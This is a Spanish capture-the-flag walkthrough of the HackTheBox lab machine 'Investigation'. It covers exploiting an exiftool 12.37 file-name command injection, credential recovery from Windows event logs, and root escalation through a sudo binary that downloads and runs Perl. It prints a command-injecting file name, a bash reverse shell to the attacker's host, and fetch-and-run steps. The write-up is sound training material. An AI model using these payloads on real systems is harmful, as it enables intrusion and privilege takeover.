

Writeup Investigation HackTheBox
Resolución de la máquina Investigation de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.10.11.197
Nmap scan report for 10.10.11.197
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Al hacer un simple curl y mirar las cabeceras podemos ver el dominio eforenzics.htb
❯ curl -s 10.10.11.197 -I | grep Location
Location: http://eforenzics.htb/
Dandole un vistazo a la web nos ofrecen una prueba gratis del servicio de forense
Haciendo clic en Go! nos lleva a una pagina donde podemos subir archivos

Podemos seleccionar una imagen png cualquiera y darle a subir en la web que nos ofrece

Al darle a upload nos dice que se ha subido y nos da un boton de here para ver el resultado
Lo abrimos y es un output de exiftool, pero nos lekeea la version (12.37)
Encontramos un poc, la vulnerabilidad está en el nombre asi que copiamos en png con un nombre que nos haga un curl a nuestro host y el output lo ejecute con bash
❯ cp image.png 'curl 10.10.14.10 | bash |'
Como index definimos una reverse shell ya que la vulnerabilidad lo ejecutara con bash
❯ cat index.html
bash -i >& /dev/tcp/10.10.14.10/443 0>&1
❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
Subimos el archivo y recibimos una shell como www-data en la máquina real

❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.197
www-data@investigation:~/uploads/1674415004$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@investigation:~/uploads/1674415004$ hostname -I
10.10.11.197
www-data@investigation:~/uploads/1674415004$
Buscando archivos de los que somos propietarios podemos ver una ruta /usr/local/investigation
www-data@investigation:~$ find / -user www-data 2>/dev/null | grep -vE 'run|proc|var'
/usr/local/investigation/analysed_log
/dev/pts/0
www-data@investigation:~$
Entramos a la carpeta donde podemos ver un .msg que es un mensaje de Microsoft Outlook
www-data@investigation:~$ cd /usr/local/investigation
www-data@investigation:/usr/local/investigation$ ls -l
-rw-rw-r-- 1 smorton smorton 1308160 Oct 1 00:35 'Windows Event Logs for Analysis.msg'
-rw-rw-r-- 1 www-data www-data 0 Oct 1 00:40 analysed_log
www-data@investigation:/usr/local/investigation$ file 'Windows Event Logs for Analysis.msg'
Windows Event Logs for Analysis.msg: CDFV2 Microsoft Outlook Message
www-data@investigation:/usr/local/investigation$
Podemos abrirlo con Outlook y ver el mensaje, tambien un archivo zip que nos comparte
Al descomprimirlo podemos ver un archivo llamado security.evtx
❯ unzip evtx-logs.zip
Archive: evtx-logs.zip
inflating: security.evtx
Podemos usar evtx_dump para dumpear los datos del archivo compartido
❯ ./evtx_dump security.evtx -o json > dump
En las lineas TargetUsername del dump podemos ver un usuario y lo que parece una contraseña
❯ grep TargetUserName dump | sort -u | tr -d \", | awk '{print $2}' | grep -vE 'UMFD|DWM'
-
aanderson
AAnderson
AAnderson
Administrator
Administrators
AWright
Backup
BMay
DefaultAccount
Def@ultf0r3nz!csPa$$
EFORENZICS-DI$
EKora
Guest
hmarley
HMarley
HMarley
hmraley
IPerez
JClark
KTyson
ljenkins
LJenkins
LJenkins
lmonroe
LMonroe
LMonroe
LOCAL
smorton
SMorton
SMorton
SYSTEM
WDAGUtilityAccount
Podemos usar las credenciales para conectarnos por ssh y conseguimos shell como smorton
❯ ssh smorton@10.10.11.197
smorton@10.10.11.197's password: Def@ultf0r3nz!csPa$$
smorton@investigation:~$ id
uid=1000(smorton) gid=1000(smorton) groups=1000(smorton)
smorton@investigation:~$ hostname -I
10.10.11.197
smorton@investigation:~$ cat user.txt
946**************************a70
smorton@investigation:~$
MIrando privilegios de sudoers podemos ver un binario llamado binary
smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
secure_path=/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User smorton may run the following commands on investigation:
(root) NOPASSWD: /usr/bin/binary
smorton@investigation:~$
Con ayuda de ghidra podemos abrir el binario y abrir la función main

Al abrirlo en la parte derecha podemos ver todo el codigo de la función decompilado
En una parte del codigo podemos ver que verifica que el total de parametros sea 3, quiere decir que ademas del binario necesitamos otros 2 parametros
if (param_1 != 3) {
puts("Exiting... ");
exit(0);
}
También en otra parte podemos ver que compara que el uid sea igual a 0 (que sea root quien lo ejecuta), si la condicion falla hace exactamente lo mismo que antes
_Var1 = getuid();
if (_Var1 != 0) {
puts("Exiting... ")
exit(0);
}
En otra parte podemos ver que verifica que el segundo parametro sea lDnxUysaQn si la condicion no se cumple también hace lo mismo que antes
iVar2 = strcmp(*(char **)(param_2 + 0x10),"lDnxUysaQn");
if (iVar2 != 0) {
puts("Exiting... ");
exit(0);
}
Si las condiciones se cumplen usa la funcion curl para leer un archivo de un recurso web que podemos especificar en el primer paranetro y lo guarda en el archivo abierto
puts("Running... ");
__stream = fopen(*(char **)(param_2 + 0x10),"wb");
uVar3 = curl_easy_init();
curl_easy_setopt(uVar3,0x2712,*(undefined8 *)(param_2 + 8));
curl_easy_setopt(uVar3,0x2711,__stream);
curl_easy_setopt(uVar3,0x2d,1);
iVar2 = curl_easy_perform(uVar3);
Si en este punto sigue el flujo, ejecutara el archivo guardado del recurso web con perl
if (iVar2 == 0) {
iVar2 = snprintf((char *)0x0,0,"%s",*(undefined8 *)(param_2 + 0x10));
__s = (char *)malloc((long)iVar2 + 1);
snprintf(__s,(long)iVar2 + 1,"%s",*(undefined8 *)(param_2 + 0x10));
iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s);
__s_00 = (char *)malloc((long)iVar2 + 1);
snprintf(__s_00,(long)iVar2 + 1,"perl ./%s",__s);
fclose(__stream);
curl_easy_cleanup(uVar3);
setuid(0);
system(__s_00);
system("rm -f ./lDnxUysaQn");
return 0;
}
Para explotar esto, creamos un archivo pl que ejecute 'su' y lo compartimos
❯ cat pwned.pl
exec("su")
❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
Finalmente ejecutamos el binario con los argumentos que sabemos que necesitamos y al ejecutar su nos lanza una bash como root, hemos completado la máquina
smorton@investigation:~$ sudo binary http://10.10.14.10/pwned.pl lDnxUysaQn
Running...
root@investigation:~# id
uid=0(root) gid=0(root) groups=0(root)
root@investigation:~# hostname -I
10.10.11.197
root@investigation:~# cat /root/root.txt
063**************************48d
root@investigation:~#